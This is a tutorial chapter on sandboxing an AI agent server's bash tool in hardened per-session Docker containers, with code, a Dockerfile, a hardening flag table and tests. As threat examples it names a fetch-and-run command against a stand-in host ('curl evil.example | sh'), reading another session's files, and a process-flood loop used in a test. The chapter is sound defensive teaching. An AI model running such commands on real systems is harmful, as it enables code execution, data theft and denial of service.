


# 24 Part 5 · Docker sandbox

**Goal:** Run each session's tools inside a container.

**Builds on:** [23 Limits](23-limits.md) · **Next:** [25 Web client](25-web-client.md)

## Where we are



*This chapter adds the Docker sandbox to the server app (marked). The library does not change.*

Big picture of Part 5: [part-5-system](19-0-part-5-system.md).

Code in this chapter (commit `2fc2776`):

- `apps/server/src/simp_server/server.py` — `Sandbox`, `LocalSandbox`, `check_sandbox`, `load_settings`, `take_keys`
- `apps/server/src/simp_server/sandboxes/docker.py` — `DockerSandbox`, `DockerEnv`, `build_image`
- `apps/server/sandboxes/Dockerfile` — the sandbox image
- `packages/simp_agent/src/simp_agent/testing/env_conformance.py` — `EnvConformance`
- `apps/server/tests/test_docker_sandbox.py` — the Docker sandbox tests

## Problem

At the end of [23](23-limits.md), Ana and Bob share one server. Their runs have a budget, and idle runs are freed. But one question is still open: where do the agent's commands actually run?

Ana asks: "write `fizzbuzz.py` and run it". The agent calls the `bash` tool ([10](10-coding-tools.md)) with `python fizzbuzz.py`. Today every session gets its env from `LocalSandbox` in `server.py`: a folder under the data dir, with a `LocalEnv` ([09](09-exec-env.md)) rooted there. Its docstring is honest about it:

```python
class LocalSandbox:
    """A per-session dir under the data dir; LocalEnv rooted there. Not isolation: DockerSandbox replaces it."""
```

The root check of `LocalEnv` keeps the *file* tools (`read`, `write`, `edit`, `ls`) inside Ana's folder. But `bash` is not a file tool. It hands any text to a shell, and that shell runs on the server machine as the server user. So `cat ../<bob's session>/notes.txt` reads Bob's work, `curl evil.example | sh` downloads and runs anything, and a fork bomb (a command that starts processes until the machine has no room left) stops the server for everyone. A careless model can do this by mistake; a bad prompt can make it do it on purpose.

For one person on a laptop, this is fine: it is their own machine. For Ana and Bob together, it is not. Each session's commands must run in a closed box, apart from the server and from each other. That box is a **[sandbox](glossary.md#sandbox)**. We build it with Docker: a **[container](glossary.md#container)** is a process that sees its own files, its own users and its own limits, started from a ready-made image. It shares the host's kernel, so it starts in about a second, much faster than a full virtual machine.

## Starting point: 23's server, with LocalSandbox in the slot

Here is the real `LocalSandbox.open` the server uses today (`server.py`, trimmed):

```python
async def open(self, session_id: str) -> LocalEnv:
    d = self.root / session_id
    d.mkdir(parents=True, exist_ok=True)
    return LocalEnv(str(d.resolve()))
```

The session gets a plain `LocalEnv` from [09](09-exec-env.md). The first idea is the smallest swap: keep this `open`, but make `exec` of that env put `docker run --rm -v <root>:/work python:3.13-slim sh -c <command>` in front of every command, and on timeout kill the `docker` process on the host.

That prints FizzBuzz. But it breaks in four ways:

1. **Slow.** A new container starts for every `bash` call, and the agent makes many.
2. **Still open.** The container runs as root, has the network, and has no memory or process limit. `curl` and the fork bomb still work.
3. **Timeout and cancel do not stop the command.** Killing the `docker` program on the host leaves the command inside the container running. `cancel` and `on_output` are ignored, and `cwd` is thrown away.
4. **Nobody owns it.** Nothing says when a session's box starts, when it stops, and when its files go away.

## Step by step: from LocalSandbox to DockerSandbox

In plain words, each step fixes one break:

1. **Start the box once per session**, keep it alive doing nothing, and send each command into it. This fixes *slow*.
2. **Close every door we do not need** when starting it: no root, no network, a limit on processes and memory, a read-only system. This fixes *still open*.
3. **Kill the whole command inside the box** on timeout or cancel, the same group kill as [09](09-exec-env.md#process-group-kill), just done from inside. This fixes the timeout.
4. **Give the server a slot** that opens, closes and removes a box per session, so the session manager decides when. This fixes *nobody owns it*.

Real design walks these in the order the server meets them: first the slot (4), then the box (1, 2), then the commands (3).

## Real design

The picture to keep in mind:



The session folder lives on the host. The container sees the same folder at `/work`. File tools stay on the host; only commands go into the box.

### The sandbox slot

Follow one request. Ana opens a session. The session manager loads it ([20](20-server-run.md)) and needs a place where her tools will run, so it calls `self.sandbox.open(row["sandbox_ref"])`; `sandbox_ref` is the name the store keeps for the session's box. To make that call, the server needs a slot it can fill with either a local or a Docker sandbox.

The server does not know about Docker. The protocol is `Sandbox`, in `server.py`:

```python
class Sandbox(Protocol):
    async def open(self, session_id: str) -> ExecutionEnv: ...

    async def close(self, session_id: str) -> None: ...

    async def remove(self, session_id: str) -> None: ...  # delete the workspace files (session deleted)
```

`open` gives back an `ExecutionEnv`, the same contract every tool already uses ([09](09-exec-env.md#the-contract-executionenv)). So the tools never learn that a container exists. `close` frees what is running but keeps the files. `remove` deletes the files.

This is a **[sandbox slot](glossary.md#sandbox-slot)**, one of the [server slots](glossary.md#server-slot) from [22](22-store-auth.md#real-design), next to `store` and `auth`. `DEFAULT_PLUGINS` puts `LocalSandbox` in it. `load_settings()` switches it to Docker when you set the env var `SIMP_SANDBOX=docker` (or set `[plugins] sandbox` in `settings.toml`):

```python
docker = {"sandbox": "simp_server.sandboxes.docker:DockerSandbox"} if os.environ.get("SIMP_SANDBOX") == "docker" else {}
```

Why a slot, and not Docker everywhere? Because the server code stays the same in both worlds. One person on a laptop needs no Docker, and the tests run without it. But forgetting to switch on a shared server would be dangerous, so the server checks:

```python
def check_sandbox(settings: dict, n_users: int) -> str | None:
    """LocalSandbox runs tools on this machine as the server user: fine for one person, not for several."""
```

With more than one user and `LocalSandbox`, it returns an error message, and the server refuses to start (or to add the second user), unless you set `allow_local_sandbox = true` on purpose.

One more door is closed outside the box. The model API keys sit in the server's environment, and a child process inherits the environment. So `take_keys()` reads the keys and *removes* them from `os.environ`: "Removed from os.environ so sandboxed commands never see them." Even `env` inside `bash` cannot print them.

### DockerSandbox.open: one hardened container per session

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerSandbox.open`

```text
FUNCTION open(session_id):
    IF session_id does not match [A-Za-z0-9_-]{1,64}:
        RAISE ValueError("bad session id")
    IF session_id already in envs:
        RETURN envs[session_id]
    root = workspaces_dir / session_id    // move it from <data_dir>/sandboxes if an old server left it there
    make root
    name = "simp-" + session_id
    RUN docker rm -f name                 // leftover from a crash
    RUN docker run -d --name name <hardening flags>
        -v <root>:/work -w /work <image> sleep infinity
    IF that failed: RAISE RuntimeError("docker run failed: ...")
    envs[session_id] = DockerEnv(root, name)
    RETURN it
```

The id check comes first because the id becomes both a folder name and a container name; `../x` must never reach either. The reuse check and `sleep infinity` are step 1: the container starts once and then just waits, and every command later enters it with `docker exec`. `docker rm -f` is there because a crashed server can leave a container with the same name behind. The old-folder move is for sessions made by an earlier server version, which kept files in `<data_dir>/sandboxes`.

**The image.** Before `docker run` can start anything, it needs an image. `apps/server/sandboxes/Dockerfile` builds the image `simp-sandbox:latest`, the template each container starts from:

```dockerfile
FROM python:3.13-slim
RUN apt-get update && apt-get install -y --no-install-recommends ripgrep fd-find git coreutils procps \
    && ln -s /usr/bin/fdfind /usr/local/bin/fd && rm -rf /var/lib/apt/lists/* \
    && useradd -u 1000 -m -s /bin/sh sandbox && mkdir /work && chown 1000:1000 /work
USER 1000:1000
WORKDIR /work
CMD ["sleep", "infinity"]
```

It has Python and the programs the agent likes to call (`rg`, `fd`, `git`), a normal user with id 1000, and an empty `/work` that this user owns. You build it once with `simp-server build-sandbox`, which runs `build_image()`, that is `docker build -t simp-sandbox:latest apps/server/sandboxes`.

The session folder is a **[bind mount](glossary.md#bind-mount)**: a host folder shown inside the container at `/work`. A file the agent writes in the box is a normal file on the host, so it survives the container.

Step 2 is the flags. Turning off every power the box does not need, and adding limits, is called **[hardening](glossary.md#hardening)**. Each flag closes one door from the Problem:

| Flag | What it stops |
|---|---|
| `--user 1000:1000` | Running as root. |
| `--network none` (default) | `curl evil.example`, and leaking files out. |
| `--pids-limit 256` | Fork bombs. |
| `--memory 1g`, `--cpus 1` | One session eating the whole machine. |
| `--read-only` + `--tmpfs /tmp:...,size=64m` | Changing system files. Only `/work` and a small `/tmp` are writable. |
| `--cap-drop ALL`, `--security-opt no-new-privileges` | Gaining extra Linux powers (capabilities), even through a setuid program. |

The values come from the `[sandbox]` table in `settings.toml`, so an admin can give more memory or turn on a network. Missing keys fall back to the safe defaults: `network = "none"`, `memory = "1g"`, `cpus = "1"`, `pids_limit = 256`, `image = "simp-sandbox:latest"`, `workspaces_dir = <data_dir>/workspaces`.

### DockerEnv: files on the host, commands in the box

The container is up and waiting. Now the model calls `bash` (or `read`), and the tool asks the env that `open` returned. `DockerEnv` is a subclass of `LocalEnv` that keeps one extra field, the container name. The module docstring says the split: "File ops run on the host (LocalEnv with root containment) on a dir bind-mounted at /work; only exec goes through `docker exec`."

Why are file tools safe on the host, when `bash` was not? Because they never run user text as a program. They only read and write paths, and `LocalEnv._path` already refuses any path outside the root ([09](09-exec-env.md#path-safety)). So `DockerEnv` inherits them unchanged, fast and already tested. Only `exec` is new.

**Mapping `cwd`.** A tool passes `cwd` as a host path, but the container only knows `/work`. `_cwd` first runs `_path` (so the root check still applies), then swaps the root for `/work`:

```python
def _cwd(self, cwd: str) -> str:
    rel = self._path(cwd).relative_to(Path(self.root).resolve())  # host path (or relative) -> /work/...
    return str(Path("/work") / rel)
```

**Running and killing a command.** In [09](09-exec-env.md#process-group-kill), `LocalEnv` starts the shell in a new process group and kills the whole group on timeout. Here the command runs inside the container, where the host cannot see its pid. So we ask the box to tell us:

Real code: [sandboxes/docker.py](../../apps/server/src/simp_server/sandboxes/docker.py) — `DockerEnv.exec`

```text
proc = START docker exec -w _cwd(cwd) <container>
           setsid -w sh -c 'echo $$; exec sh -c "<command>" 2>&1'
pid = first line of output
... same pump loop as LocalEnv.exec: read chunks, call on_output,
    stop at done, cancel or timeout ...
IF not done:
    IF pid is a number: RUN docker exec <container> kill -9 -- -<pid>
    IF host docker exec still alive: kill it
    RETURN (none, output so far)
```

`setsid` makes the shell the leader of a new process group inside the box, so its pid is also the group id. `echo $$` prints that pid as the first line, and we keep it apart from the output. `2>&1` sits inside the box on purpose: Docker carries stderr as its own stream, and an early error line could arrive before the pid line. On timeout, `kill -9 -- -<pid>` (note the minus: "the group") runs inside the box and kills the shell and every child.

**Worked example.** Ana's agent runs `python fizzbuzz.py; sleep 30` with a 5 second timeout.

1. Output starts with `4711`, then `1`, `2`, `Fizz`, … The `4711` is the shell's pid; we keep it and do not show it. `on_output` gets the rest, so Ana sees FizzBuzz live.
2. `sleep 30` starts. After 5 seconds the timeout hits.
3. We run `docker exec simp-<id> kill -9 -- -4711`. The shell and `sleep` die inside the box.
4. `exec` returns `(None, "1\n2\nFizz\n…")`.

With `kill -9 4711` (no minus), only the shell would die and `sleep 30` would keep running, which is exactly break 3 of the starting point.

### close, remove, close_all

The request ends. The session manager calls the slot again at moments you already know. When it evicts an idle run ([23](23-limits.md)), it calls `close`; the docstring says "Free RAM and the container; files and log stay". When a session is deleted, it calls `close` and then `remove`. On shutdown it closes each open run and then calls `close_all()` if the sandbox has one.

`close(session_id)` drops the env from `envs` and runs `docker rm -f` on its container. The folder stays. The next `open` starts a fresh container on the same folder, so `fizzbuzz.py` is still there. That is why eviction in [23](23-limits.md) is cheap to undo: a container costs memory while it waits, the files cost nothing.

`remove(session_id)` deletes the folder, in both the new and the old place, after the same id check. `close_all()` closes every open container at once with `asyncio.gather`, so a server shutdown leaves no containers running.

### Passing EnvConformance

That is the whole life of one session. One question is left: how do we know `DockerEnv` acts exactly like `LocalEnv`? We reuse **`EnvConformance`** from [09](09-exec-env.md#test): one test class with checks for files, listing, root containment, exit codes, streaming, `cwd`, timeout and cancel. Any env that passes it can be given to the tools.

One line in it was written for Docker:

```python
self.root = tmp_path / f"root-{uuid.uuid4().hex[:8]}"  # unique: Docker names containers after it
```

The folder name becomes the session id, and so the container name. A unique name per test means tests never fight over one container.

## Test

`apps/server/tests/test_docker_sandbox.py` is skipped when Docker is missing (`_docker_ok()`), and builds the image first if it is not there yet. It has three parts.

The conformance part is tiny. Its `make_env` points `workspaces_dir` at the test's temp folder and opens the folder name as a session, so every `EnvConformance` check runs against a real container:

```python
class TestDockerEnvConformance(EnvConformance):
    @pytest.fixture
    def make_env(self, sandbox, tmp_path):
        async def make(root):
            sandbox.workspaces_dir = root.parent
            return await sandbox.open(root.name)
        return make
```

`test_hardening` checks each row of the flag table from inside the box:

```python
async def test_hardening(sandbox, tmp_path):
    env = await sandbox.open(f"s1-{uuid.uuid4().hex[:8]}")
    run = lambda cmd: env.exec(cmd, ".", 30, asyncio.Event())
    assert (await run("id -u"))[1].strip() == "1000"
    code, out = await run("python -c 'import socket; socket.create_connection((\"1.1.1.1\", 53), timeout=3)'")
    assert code != 0
    assert (await run("touch /etc/x"))[0] != 0  # read-only rootfs
    assert (await run("touch /tmp/x && touch /work/x"))[0] == 0
    assert (await run("grep CapEff /proc/self/status"))[1].split()[1] == "0000000000000000"  # no caps
    code, out = await run("for i in $(seq 400); do sleep 5 & done; wait")
    assert "fork" in out.lower() or "resource" in out.lower()  # pids limit hit
```

In order: the user is 1000, not root; a network connection fails; `/etc` cannot be written but `/tmp` and `/work` can; the effective capabilities are all zero; and starting 400 processes fails because the limit is 256.

The last test, `test_open_close`, checks that opening the same id twice gives the same env, that `../x` raises `ValueError`, and that after `close` the container is gone.

Run it (needs Docker):

```sh
uv run pytest apps/server/tests/test_docker_sandbox.py -q
```

## Why this way

> **One long-lived container per session; files on the host, only `exec` in the box.** Starting the container once makes each `bash` call fast. Keeping file tools on the host reuses `LocalEnv` and its root check, so only `exec` is new code, and `EnvConformance` proves both envs act the same. The slot keeps Docker out of the server core: one person can use `LocalSandbox`, a shared server switches with one setting, and `check_sandbox` stops you from forgetting. The cost: you need Docker and a built image, and each open container uses memory, which is why idle sessions are closed ([23](23-limits.md)).

## Exercises

1. Set `network = "bridge"` in the `[sandbox]` table. Which line of `test_hardening` would fail, and why?
2. Open a session, write a file, call `close`, then `open` the same id again. Is the file still there? Why?

## Recap

Ana's `bash` commands no longer run on the server. The server has a `Sandbox` slot with `open`, `close` and `remove`, and the session manager calls it when a session loads, is evicted, is deleted, and at shutdown. `LocalSandbox` gives a plain folder and no isolation, so `check_sandbox` refuses several users on it unless you allow it, and `take_keys` hides the model keys from every command. `DockerSandbox.open` starts one hardened container per session (user 1000, no network, limits on processes, memory and CPU, read-only system, no capabilities) with the session folder bind-mounted at `/work`. `DockerEnv` keeps the file tools on the host and sends only `exec` through `docker exec`, where `setsid` and the pid line let a timeout kill the whole group inside the box. `EnvConformance` and `test_hardening` prove it. Next, [25](25-web-client.md) gives Ana and Bob a browser page to use all of this.

**Builds on:** [23 Limits](23-limits.md) · **Next:** [25 Web client](25-web-client.md)
